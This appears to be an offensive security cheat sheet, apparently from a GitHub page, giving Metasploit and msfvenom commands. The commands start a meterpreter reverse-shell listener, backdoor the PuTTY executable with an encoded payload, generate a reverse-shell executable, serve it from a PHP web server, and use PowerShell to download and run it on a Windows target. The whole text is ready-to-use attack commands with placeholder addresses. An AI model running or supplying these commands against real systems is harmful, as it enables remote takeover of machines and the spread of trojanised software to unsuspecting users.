 Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
```bash

Generate a Windows Payload then use powershell to download payload 
------------------------------
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S 10.5.21.24:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

